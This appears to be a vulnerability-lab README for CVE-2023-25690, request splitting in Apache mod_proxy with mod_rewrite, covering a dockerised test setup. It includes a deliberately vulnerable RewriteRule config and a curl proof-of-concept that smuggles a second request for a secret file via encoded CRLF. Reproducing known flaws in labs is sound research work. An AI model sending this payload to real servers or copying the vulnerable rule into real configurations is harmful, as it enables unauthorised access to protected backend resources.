

# HTTP request splitting with mod_rewrite and mod_proxy (CVE-2023-25690)

[中文版本(Chinese version)](README.zh-cn.md)

The Apache HTTP Server Project is an effort to develop and maintain an open-source HTTP server for modern operating systems including UNIX and Windows.

Some mod_proxy configurations on Apache HTTP Server versions 2.4.0 through 2.4.55 allow a HTTP Request Smuggling attack.

Configurations are affected when mod_proxy is enabled along with some form of RewriteRule or ProxyPassMatch in which a non-specific pattern matches some portion of the user-supplied request-target (URL) data and is then re-inserted into the proxied request-target using variable substitution.

References:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://github.com/apache/httpd/commit/9282a06e55cb142666d6ed565c9031e728b7d537
- https://github.com/apache/httpd/commit/d78a166fedd9d02c23e4b71d5f53bd9b2c4b9a51

## Vulnerable environment

Execute following commands to start a vulnerable Apache HTTP Server:

```
docker-compose build
docker-compose up
```

After the server is started, you can see the default page which says `It works!` of Apache HTTP Server through `http://your-ip:8081`.

## Exploit
The vulnerable point is that backreference insert into backend's query-string part, mod_rewrite will decode this part of the data.   
Attackers can use raw control character to construct a malicious request for request splitting attacks.  
  
Vulnerable config:
```
RewriteEngine on

RewriteRule "^/here/(.*)" "http://example.com:8080/elsewhere?$1"; [P]

ProxyPassReverse /here/ http://example.com:8080/
```

POC:  
`curl.exe "http://192.168.31.145:8081/vuln/a%20HTTP/1.1%0d%0aHost:%20192.168.31.145:8081%0d%0a%0d%0aGET%20/404" -v`  
Then, the secret.txt file will be requested.

